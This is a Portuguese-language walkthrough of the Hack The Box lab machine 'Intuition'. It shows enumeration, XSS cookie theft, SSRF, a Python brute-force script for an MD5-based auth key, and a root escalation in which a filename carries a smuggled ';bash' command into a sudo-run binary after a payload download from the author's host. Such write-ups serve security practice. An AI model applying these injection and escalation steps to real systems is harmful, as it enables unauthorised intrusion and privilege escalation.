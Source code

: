 ```yaml
---
title: HTB Máquinas - Intuition
date: 2024-05-01 09:30:12 +0300
categories: [HTB, Máquinas]
tags: [máquinas, htb]     # TAG names should always be lowercase
---
```


# Intuition

*De antemão, peço desculpas por não fazer um post mais detalhado. Estou terminando as demandas da faculdade e estou correndo contra o relógio. Mas qualquer dúvida vocẽs podem entrar em contato comigo!*

## Enumeração
Nmap:
```
nmap -A -sV -sC 10.10.11.15                                                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 06:37 -03
Nmap scan report for 10.10.11.15
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b3:a8:f7:5d:60:e8:66:16:ca:92:f6:76:ba:b8:33:c2 (ECDSA)
|_  256 07:ef:11:a6:a0:7d:2b:4d:e8:68:79:1a:7b:a7:a9:cd (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://comprezzor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.23 seconds

```
```
┌──(yoshiro㉿kali)-[~]
└─$ gobuster dns -d comprezzor.htb -w subdomains-top1million-20000.txt

-comprezzor.htb

-report.comprezzor.htb

-auth.comprezzor.htb

-dashboard.comprezzor.htb
```
## Vulnerabilidade
Indo até report.comprezzor.htb, faça uma conta e realize o seguinte XSS.
![](https://i.imgur.com/69m6csl.png)

Dessa forma, será possível receber os cookies da página.

![](https://i.imgur.com/tF8EXIt.png)

Com os cookies, acesse dashboard.comprezzor.htb, e com os mesmos cookies, envie outro relatório com outro XSS e, assim que um administrador entrar para ver o relátorio, é possível roubar os cookies do adm.

![](https://i.imgur.com/lyiQtWG.png)
![](https://i.imgur.com/0E6O9n6.png)

A página de PDF é sucetivel ao ataque SSRF. 
![](https://i.imgur.com/08kHcm0.png)
![](https://i.imgur.com/G6wyUsb.png)
![](https://i.imgur.com/IU6WU3h.png)
![](https://i.imgur.com/OLSH9Hq.png)
## Usuário
![](https://i.imgur.com/6xzYnAw.png)
Para descobrir em qual usuário devemos logar no ssh, usaremos o seguinte comando:
![](https://i.imgur.com/O6WSzJV.png)

## Root

Database usando SQLite.

![](https://i.imgur.com/9lzyed9.png)

Apenas consegui quebrar a senha do Adam.

![](https://i.imgur.com/arQt2bZ.png)

Faça o login do FTP e faça o download dos seguintes arquivos:

```
ftp adam@127.0.0.1

get runner1

get runner1.c

get run-tests.sh
```

Com esses arquivos, é possível encontrar a AUTH_KEY_PREFIX e KNOWN_MD5_HASH. Com um script simples é possível o código de autorização.

```
import hashlib
import itertools
import string

AUTH_KEY_PREFIX = "UHI75GHI"
KNOWN_MD5_HASH = "0feda17076d793c2ef2870d7427ad4ed"
CHARSET = string.ascii_letters + string.digits
KEY_LENGTH = 4

def check_auth_key(suffix):
    key = f"{AUTH_KEY_PREFIX}{suffix}"
    return hashlib.md5(key.encode()).hexdigest() == KNOWN_MD5_HASH

for guess in itertools.product(CHARSET, repeat=KEY_LENGTH):
    if check_auth_key(''.join(guess)):
        print(f"Found auth key: {AUTH_KEY_PREFIX}{''.join(guess)}")
        break
else:
    print("Auth key not found.")

```

```
┌──(yoshiro㉿kali)-[~/htb]
└─$ python3 auth.py                                 
Found auth key: UHI75GHINKOP
```

Adam não tem as permissões necessárias para as executar ações relacionadas ao sys-admin, por isso, será necessário escolonar para o usuário Lopez.

Procurando no log, foi possível encontrar a pasta suricata. Utilizando o grep é possível identificar o login do Lopez.

![](https://i.imgur.com/NzwdWmV.png)

Com acesso a esse usuário, é possível acessar o runner2.
![](https://i.imgur.com/cluIOti.png)

Com algumas tentativas é erros, é possível identificar o comando que precisa ter utilizado.
![](https://i.imgur.com/tgRJEfE.png)

Para o acesso root, faça um download de algum sys-admin com meta/main.yml, por exemplo: https://github.com/coopdevs/sys-admins-role/archive/v0.0.3.tar.gz.

Após isso:

```
curl -O http://10.10.14.42:8080/sys-admins-role-0.0.3.tar.gz

mv sys-admins-role-0.0.3.tar.gz sys-admins-role.tar\;bash

echo '{"run": { "action": "install","role_file":"sys-admins-role.tar;bash"}, "auth_code": "UHI75GHINKOP"}' > yoshi.json

sudo /opt/runner2/runner2 yoshi.json
```

Você é root.